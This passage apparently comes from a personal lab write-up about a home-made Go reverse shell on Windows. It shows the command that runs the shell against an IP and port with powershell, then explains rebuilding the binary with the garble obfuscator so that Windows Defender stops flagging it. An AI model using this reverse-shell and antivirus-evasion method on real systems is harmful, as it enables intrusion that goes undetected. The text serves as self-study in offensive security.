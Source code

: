 ```terminal
.\general.exe 192.168.80.131:8080 powershell
```

And it luckly gets executed.

![811d5171da65af19ddbbabca6a472a67.png](/assets/811d5171da65af19ddbbabca6a472a67.png)

## Obfuscation
For whatever reason, after a while it got flagged again by Windows Defender.

![905c49c9afa7c794cbbcd6b0aed2d328.png](/assets/905c49c9afa7c794cbbcd6b0aed2d328.png)

Unfortunately, I wasn't able to find my way to obfuscate the executable so I had to use this wonderful tool called [garble](https://github.com/burrowers/garble) to compile golang code and obfuscate it. After installing it, all I did was to just simply run the compiling command but repleacing `go` with `garble`:

```bash
env GOOS=windows GOARCH=amd64 garble build -ldflags "-s -w" reverse_shell.go
```

And this time, Windows Defender does not flag our binary as malicious.

I'm not gonna cover the privilege escalation part simply because I am currently not skilled enough for this and also because I didn't set-up a privilege escalation vector on the Windows machine.
